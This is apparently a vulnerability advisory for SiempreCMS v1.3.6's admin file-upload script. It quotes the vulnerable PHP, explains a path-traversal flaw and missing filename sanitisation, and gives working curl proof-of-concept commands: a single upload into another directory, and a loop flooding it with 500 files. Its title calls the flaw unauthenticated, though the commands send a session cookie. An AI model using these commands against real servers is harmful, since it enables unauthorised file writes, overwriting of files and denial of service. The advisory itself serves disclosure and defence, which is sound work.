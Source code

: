 # Unauthenticated File Upload Allows Server Flooding – SiempreCMS

- **Type:** Arbitrary File Upload / Resource Exhaustion  
- **Location:** `docs/admin/file_upload.php`  
- **Impact:** An attacker can upload files to arbitrary directories under `../media/`, including hidden module directories. While uploaded files cannot be executed as PHP scripts in this setup, the vulnerability allows **flooding a specific directory with large numbers of files**, potentially exhausting disk space, degrading server performance, or causing denial-of-service conditions.  
- **Product:** *[SiempreCMS v1.3.6](https://github.com/SiempreCMS/SiempreCMS)*
---

## Vulnerable Code Analysis

```php
if (isset($_POST['folder-path']) && substr($_POST['folder-path'], 0, 9) == '../media/') {
	$path = $_POST['folder-path'];
} else {
	$status = 'Bad request in folder path!';
	echo json_encode(array('status' => $status));
	exit();
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && @is_uploaded_file($_FILES['image']['tmp_name'])) {
	$ext = strtolower(pathinfo($_FILES['image']['name'], PATHINFO_EXTENSION));
	if (in_array($ext, $valid_exts) AND $_FILES['image']['size'] < $max_size) {
		$path = $path . $_FILES['image']['name'];
		if (move_uploaded_file($_FILES['image']['tmp_name'], $path)) {
			$status = 'Image successfully uploaded!';
		} else {
			$status = 'Upload Fail: Unknown error occurred!';
		}
	} else {
		$status = 'Upload Fail: Unsupported file format or It is too large to upload!';
	}
} else {
	$status = 'Upload Fail: File not uploaded!';
}
```

### Analysis
**Folder Path Control:** The code allows uploading files to any directory that begins with ``../media/.`` By manipulating folder-path, attackers can reach hidden or sensitive directories such as ``modules/helloworld/``.

#### **File Type & Size Validation:**

-    Only extensions in ``['jpeg','jpg','png','gif','doc','docx','pdf']`` are allowed.
-    Maximum size is 1600 KB.
-    While this prevents arbitrary PHP execution, it does not prevent mass upload of allowed files.
-    No Filename Sanitization: The uploaded file name is directly concatenated to the path, allowing overwriting existing files.
-    No Execution: Uploaded files cannot be executed as PHP code in this configuration.

---
### Proof of Concept Arbitrary File Upload / Resource Exhaustion (Flooding)
#### Exploit 1: Basic Upload
-    This PoC demonstrate a file upload in other directories.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -X POST \
 -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
 -F "folder-path=../media/../../modules/helloworld/" \
 -F "image=@sample.txt.jpeg;filename=shell.txt.jpeg" \
 http://localhost/SiempreCMS/docs/admin/file_upload.php

{"status":"Image successfully uploaded!"}
```

**Evidence:**
</br>
![](./basic.png)


#### Exploit 2: Directory Flooding
-    This PoC demonstrates uploading a large number of files to the vulnerable directory, which can consume server resources and slow down the application.

```bash
# Flood the modules/helloworld/ directory with 500 files
NUM_FILES=500

for i in $(seq 1 $NUM_FILES); do
  # Generate a sample file
  echo "This is test file $i" > sample_$i.txt
  # Rename with allowed extension
  mv sample_$i.txt sample_$i.txt.jpeg
  # Upload file
  curl -s -X POST \
   -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
   -F "folder-path=../media/../../modules/helloworld/" \
   -F "image=@sample_$i.txt.jpeg;filename=sample_$i.txt.jpeg" \
   http://localhost/SiempreCMS/docs/admin/file_upload.php
done
```

**Evidence:**
</br>
![](./cli.png)

</br>

![](./gui.png)

---

### Expected Outcome
-    Hundreds of files are uploaded to ``modules/helloworld/``.
-    Disk usage in the directory increases significantly.
-    Server performance may degrade due to the large number of files.
-    Existing files in the directory can be overwritten if the same filename is used.
-    No PHP execution occurs, so it’s not remote code execution.
